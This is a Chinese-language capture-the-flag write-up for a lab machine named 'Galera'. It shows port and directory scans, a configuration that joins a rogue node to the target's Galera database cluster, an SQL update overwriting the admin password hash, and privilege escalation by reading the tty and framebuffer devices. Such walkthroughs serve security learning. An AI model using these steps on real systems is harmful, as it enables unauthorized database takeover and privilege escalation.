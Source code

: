 # Galera HVM

> 日期：2025-07-02 ｜ 作者：dehua ｜ 标签：第一个wp博客，有什么改进的可以留下评论

---

## 信息收集阶段

首先对目标进行端口扫描，发现开放的服务如下：

```bash
nmap -sC -sV -A 192.168.1.100
```

```
22/tcp open ssh OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey:
| 256 28:50:32:2f:bb:ef:7e:51:c3:59:cb:e6:40:88:0e:4e (ECDSA)
|_256 f3:fa:a1:84:c6:da:fc:09:fe:aa:ca:ec:0a:29:7d:30 (ED25519)
80/tcp open http Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Login
4567/tcp open tram?
```

---

## 漏洞利用过程

发现 80 端口是一个登录页面，进行目录扫描：

```bash
gobuster dir -u http://192.168.218.181/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -x php,txt,html
```

```
/login.php (Status: 302) [--> /]
/logout.php (Status: 302) [--> index.php]
/config.php (Status: 200)
/upload (Status: 301) [--> /upload/]
/private.php (Status: 403)
/info.php (Status: 200)
/index.php (Status: 200)
/server-status (Status: 403)
```

> 发现一个 `info.php` 页面，是标准的 PHP 配置信息页面；其他页面基本无用。
>
> 查看 `index.php` 源码，发现一个隐藏的 `token`，但初步分析似乎没有实际用途。
>
> 4567 端口通过搜索发现与 **Galera Cluster** 有关，是集群节点通信端口。

### Galera Cluster 特性：

- 同步复制  
- 多主结构  
- 自动成员资格管理  
- 节点自动加入集群  
- 行级并行复制  
- 任意节点可直连访问

后来参考一位大佬的 WP，发现可以伪装节点加入集群。

```ini
[galera]
wsrep_on = ON
wsrep_provider = /usr/lib/galera/libgalera_smm.so
wsrep_cluster_address = "gcomm://192.168.218.181:4567"
wsrep_node_name = "sunset"
wsrep_node_address = "192.168.218.148"
binlog_format = row
default_storage_engine = InnoDB
wsrep_sst_method = rsync
bind-address = 0.0.0.0
```

重启数据库服务后成功同步，拿到对方数据库信息：

![Image](https://github.com/user-attachments/assets/9bed1578-e989-49a2-a367-0d114ce571df)

开始还想着爆破，但是太慢了，后面一想，反正会同步复制数据，我直接改。

```sql
update users set password = "$2a$10$3NvG5rz1vFOz.bGrDxKI3eAH3WlC1QDGF7Yl5s7WEvKRAUAjuTkZO" where username = "admin"
```

多次尝试登录后台，成功进入后修改首页内容：

![Image](https://github.com/user-attachments/assets/973f14ed-abe4-4ec4-b6cf-ff5c666e3f3d)

接着尝试拿 webshell，但函数被禁用，只能用伪协议查看敏感文件：

![Image](https://github.com/user-attachments/assets/87e047b3-260e-4a90-a3af-19d61022c6c5)

![Image](https://github.com/user-attachments/assets/c0ab0d0b-88e4-4fc0-bd8f-1e03474a5d58)

发现用户 `donjuandeaustria`，随后获得 shell 权限：

![Image](https://github.com/user-attachments/assets/42394c3c-5989-470e-ab54-2488be66a1a6)

---

## 提权过程

使用 linpeas 发现 root 在 tty20 终端，自己属于多个组，其中 `tty` 是关键：

```bash
cat /dev/vcs20
# 或
cat /dev/vcsa20
```

![Image](https://github.com/user-attachments/assets/1269ea35-b1f2-4c9c-a390-3ca213409a04)

### 📌 video 组提权思路（HackTricks）

目标用户属于 `video` 组：  
👉 https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/interesting-groups-linux-pe/index.html#video-group

```bash
donjuandeaustria@galera:/dev$ cat /dev/fb0 > /tmp/screen.raw
donjuandeaustria@galera:/dev$ cat /sys/class/graphics/fb0/virtual_size
1280,800
```

将 `/tmp/screen.raw` 下载后查看，但似乎无内容：

![Image](https://github.com/user-attachments/assets/1e01ea30-1b7d-428c-90fd-75a7883a3a89)
